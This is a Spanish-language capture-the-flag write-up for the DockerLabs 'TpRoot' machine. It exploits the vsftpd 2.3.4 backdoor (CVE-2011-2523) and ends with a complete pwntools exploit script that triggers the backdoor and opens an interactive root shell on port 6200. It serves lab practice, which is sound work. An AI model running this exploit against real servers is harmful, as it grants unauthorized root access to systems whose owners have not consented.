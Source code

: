 ```yaml
---
layout: post
title: "TpRoot - Dockerlabs - Linux - Fácil"
date: 2025-08-24
img: /assets/img/tproot/banner.png
---
```

TProot es una máquina Linux de nivel fácil en DockerLabs que nos permite practicar enumeración básica y explotación de vulnerabilidades conocidas.



**Enumeración**

Comenzamos con un reconocimiento de la máquina objetivo.

![img1](/secnotes/assets/img/tproot/1.png)

![img2](/secnotes/assets/img/tproot/2.png) 

Con la herramienta **searchsploit** veremos si existe alguna vulnerabilidad sobre el servicio _vsdtpd 2.3.4_

![img3](/secnotes/assets/img/tproot/3.png)
 
Encontramos un script de ejecución de comandos a través de una puerta trasera (backdoor). Esto se ejecuta conectándonos a un servicio aparentemente legitimo (FTP, HTTP, etc), enviamos un trigger (Usuario especial, header, token, etc) el servicio abre un puerto oculto o devuelve una shell, y al conectarnos a ese puerto podemos ejecutar comandos.

Esta corresponde a la vulnerabilidad CVE-2011-2523. En Exploit database encontramos un script para comprometer este servicio.

![img4](/secnotes/assets/img/tproot/4.png) 

Para ejecutarlo vamos a crear un entorno aislado con Python3 

![img5](/secnotes/assets/img/tproot/5.png) 

Esto sirve para poder instalar paquetes independientes en el sistema sin comprometer las librerías de nuestro Kali. Es útil para trabajar con distintas versiones de las librerías.

Ejecutamos el script que descargamos pero nos da un error. Indica que no tenemos la librería de telnet en nuestro sistema, esto pasó por que la versión actual de Python (3.13.5) elimino estas librerias que traía por defecto. 
 
![img6](/secnotes/assets/img/tproot/6.png) 

![img7](/secnotes/assets/img/tproot/7.png) 


con el siguiente comando podemos ejecutar directamente la versión 3.11.13 de Python desde un contenedor de docker en nuestro entorno aislado

`docker run -it --rm -v "$PWD":/work -w /work python:3.11 bash
python3 –version`

![img8](/secnotes/assets/img/tproot/8.png)

 
Al ejecutar el script obtendremos automaticamente una shell como usuario root en la máquina víctima.

![img10](/secnotes/assets/img/tproot/10.png)



**Opcion 2:**

Podemos modificar el script para reemplazar telnet por pwntools, así el script funcionará con las versiones actuales de python 

# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution (pwntools)  
**CVE:** CVE-2011-2523  
**Original author:** HerculesRD  
**Ported to pwntools for Python 3.13+**

```python
from pwn import *
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    print('[✦] Exiting...')
    exit(0)

signal(SIGINT, handler)

parser = argparse.ArgumentParser()
parser.add_argument("host", help="Target IP address", type=str)
args = parser.parse_args()

host = args.host
portFTP = 21

user = b"USER nergal:)"
password = b"PASS pass"

ftp = remote(host, portFTP, timeout=5.0)
banner = ftp.recvline(timeout=5.0)
print(f"[✦] Banner: {banner.strip().decode(errors='ignore')}")
ftp.sendline(user)
ftp.recvuntil(b"pass", timeout=3.0)  # más laxo que "password."
ftp.sendline(password)
ftp.close()

try:
    shell = remote(host, 6200, timeout=5.0)
    print("[✦] Success, shell opened")
    print("[i] Type 'exit' to quit")
    shell.interactive()
    shell.close()
except Exception as e:
    print(f"[!] Error: {e}")




![img12](/secnotes/assets/img/tproot/12.png) 


